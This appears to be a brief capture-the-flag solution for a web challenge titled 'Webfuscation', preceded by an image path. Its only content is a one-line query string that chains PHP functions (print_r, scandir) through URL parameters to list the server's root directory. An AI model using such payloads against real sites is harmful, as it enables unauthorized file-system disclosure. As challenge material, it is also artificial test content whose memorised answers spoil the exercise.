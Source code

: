 # Webfuscation | Web Hacking

## Solution
```
/?0=print_r&1=scandir&2=%22/%22&3=1&4=print_r&5=print_r&6=1
```